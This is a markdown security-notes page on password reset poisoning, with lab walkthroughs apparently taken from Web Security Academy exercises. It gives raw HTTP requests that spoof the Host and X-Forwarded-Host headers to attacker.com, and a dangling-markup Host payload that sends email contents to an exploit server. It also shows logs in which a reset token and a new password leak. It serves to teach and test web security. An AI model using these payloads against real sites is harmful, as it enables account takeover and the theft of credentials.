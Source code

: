 >[!abstract]
>Password reset poisoning is a technique whereby an attacker manipulates a vulnerable website into generating a password reset link pointing to a domain under their control. This behavior can be leveraged to steal the secret tokens required to reset arbitrary users' passwords and, ultimately, compromise their accounts.

## Techniques

- [Host Header attacks](Host%20Header%20attacks.md)
- Poisoning via middleware ([Non-standard headers override](Host%20Header%20attacks.md#Non-standard%20headers%20override)) (`X-Forwarded-Host`, `X-Forwarded-For`, `X-Remote-IP`, `X-Remote-Addr`, `X-Originating-IP`): consider using [Collaborator Everywhere](https://portswigger.net/bappstore/2495f6fb364d48c3b6c984e226c02968#:~:text=This%20extension%20augments%20your%20in,and%20browse%20the%20target%20website.)
- [Dangling markup injection](HTML%20and%20CSS%20Injection.md#Dangling%20markup%20injection)

>[!warning]
>Some time automated mail filters click link instead of the user!

# Examples

## Password reset poisoning exploiting host header injection

```http
POST /forgot-password HTTP/2
Host: attacker.com
Cookie: _lab=46%7cMCwCFEv0N7cXiXqtk1oVrrJubPt2QQF1AhQ2ZsBKpbO6kY8UeR2RnTnJpPlEf%2b8NOxkqONYHxQ%2blTSTDacB6viwKwduo%2bvsogaO6%2bOzoKeKHLa4%2b8iipp8Sbh1e3LJvj3iwjfQPGjrM19wTxAuRxaC2DEPGsMtOhjxjwraXgKxGGNqg%3d; session=EihnNPBEt8Ad6pIQdAlZ9CgbLSumZchV

csrf=59JNWHRjZGqBYOJchAf689nvQffjeSl3&username=victim
```

Spoofed Host header used to send the password reset secret-token:
> Hello! 
> Please follow the link below to reset your password.
> https://attacker.com/forgot-password?temp-forgot-password-token=YeVH5sp94doHd9wlrPhpL7xIwPZmZ5DJ
> Thanks,
> Support team

If the user clicks, attackers can takeover his account:
```
...
10.0.3.75       2023-04-01 15:17:59 +0000 "GET /forgot-password?temp-forgot-password-token=yd7scgKr0YB4Gkfxc9qPGwyQTZpkVgTL HTTP/1.1" 200 "user-agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36"
...
```

## Password reset poisoning via middleware

```http
POST /forgot-password HTTP/2
Host: real.site.com
X-Forwarded-Host: attacker.com
Cookie: _lab=46%7cMCwCFEv0N7cXiXqtk1oVrrJubPt2QQF1AhQ2ZsBKpbO6kY8UeR2RnTnJpPlEf%2b8NOxkqONYHxQ%2blTSTDacB6viwKwduo%2bvsogaO6%2bOzoKeKHLa4%2b8iipp8Sbh1e3LJvj3iwjfQPGjrM19wTxAuRxaC2DEPGsMtOhjxjwraXgKxGGNqg%3d; session=EihnNPBEt8Ad6pIQdAlZ9CgbLSumZchV

csrf=59JNWHRjZGqBYOJchAf689nvQffjeSl3&username=victims
```

Spoofed `X-Forwarded-Host` header used to send the password reset secret-token. If the user clicks, attackers can takeover his account.

## Password reset poisoning via dangling markup

The reset password functionality send the new password via email:
```html
Sent:     2023-06-29 20:14:59 +0000
From:     no-reply@0a3f00ce03414c9780ae6733005400d9.web-security-academy.net
To:       wiener@exploit-0a46000703614c3680c46685017b00be.exploit-server.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0a3f00ce03414c9780ae6733005400d9.web-security-academy.net/login'>click here</a> to login with your new password: LNJYfitpA2</p><p>Thanks,<br/>Support team</p><i>This email has been scanned by the MacCarthy Email Security service</i>
```

A flaw in the Host verification allows to append arbitrary non numeric ports at the end of the domain while sending the password reset request:
```http
POST /forgot-password HTTP/1.1
Host: 0ad900f10337348d84f9a55800a100a7.web-security-academy.net:asd

csrf=OuajjwuCYbadNosdmgl3wXTGD5V4HN8u&username=wiener


Sent:     2023-06-30 08:19:24 +0000
From:     no-reply@0ad900f10337348d84f9a55800a100a7.web-security-academy.net
To:       wiener@change.exploit-0a52004d03e83409844fa43901af00b5.exploit-server.net
Subject:  Account recovery

<p>Hello!</p><p>Please <a href='https://0ad900f10337348d84f9a55800a100a7.web-security-academy.net:asd/login'>click here</a> 
```

We can exploit this flaw to inject an arbitrary image referencing our server and leak part of the email body:
```http
POST /forgot-password HTTP/1.1
Host: 0ad900f10337348d84f9a55800a100a7.web-security-academy.net:'/></a><img src="https://exploit-0a52004d03e83409844fa43901af00b5.exploit-server.net?carlos=

csrf=OuajjwuCYbadNosdmgl3wXTGD5V4HN8u&username=carlos
```

Server response (the integrated AV scanned the link without requiring user interaction):
```html
...
10.0.3.52       2023-06-30 08:48:12 +0000 "GET ?carlos=/login'>click+here</a>+to+login+with+your+new+password:+X5qD9PDfBN</p><p>Thanks,<br/>Support+team</p><i>This+email+has+been+scanned+by+the+MacCarthy+Email+Security+service</i> HTTP/1.1" 200 
...
```

## Homograph attacks

![Homograph characters](Evading%20Restrictions.md#Homograph%20characters)